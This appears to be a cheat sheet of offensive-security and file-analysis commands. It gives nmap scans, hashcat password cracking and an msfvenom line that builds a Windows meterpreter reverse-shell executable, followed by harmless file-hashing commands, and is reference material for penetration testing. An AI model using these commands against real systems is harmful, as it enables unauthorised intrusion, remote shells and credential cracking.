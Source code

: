 # 🔫Quick Reference Commands

## 🛡️ Offensive Security Commands
### Nmap default port scan
```bash
nmap -p- -O -v -sV <IP ADDRESS>
```
-- Default mass port scan with OS and Service identification 

### Nmap Aggressive port scan
```bash
nmap -A -v <IP ADDRESS>
```
-- Aggressive Port Scan

### Retrieve a file from an FTP server
```bash
mget *
```
-- Full all files from a directory from an FTP server

### Crack a Password with Hashcat 
```bash
hashcat -O -a 0 -m <HASH Type> <FILE HASH>:<SALT>
```
-- This command runs Hashcat in optimized mode (`-O`) to crack a hash (`<FILE HASH>`) that uses a salt (`<SALT>`), using a dictionary attack (`-a 0`) against a specific hash type 

### Create Reverse Shell Malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL HOST> LPORT=4444 -f exe > shell.exe
```
-- This command will utilise the MSF venom package of the Metasploit framework and generate a revers shell listening on port 4444

### Host a Python Webserver
```bash
python3 -m http.server 8000
``` 
-- This command will host a minimised webserver on port 8000 locatable at the local IP of the endpoint 


## 📝File Information

### Retrieve basic file information
```bash
file <FILE NAME>
```
-- This will provide a high level overview of a given file specifying file type and offset

### Provide a hexdump of a file
```bash
xxd <FILE NAME>
```
-- This will provide a hexdump of a given file

## \# File Hashing
### Retrieve a file hash (linux)
```bash
<FILE HASH TYPE>sum <FILE NAME>
```

### Retrieve a file hash (Powershell)
> Default is SHA256 e.g. no provided `-alg` statement
```bash
get-filehash <FILE NAME> -alg <FILE HASH TYPE>
```

### Retrieve a file hash (Win)
```bash
certutil -hashfile <FILE NAME> <FILEHASHTYPE>
```

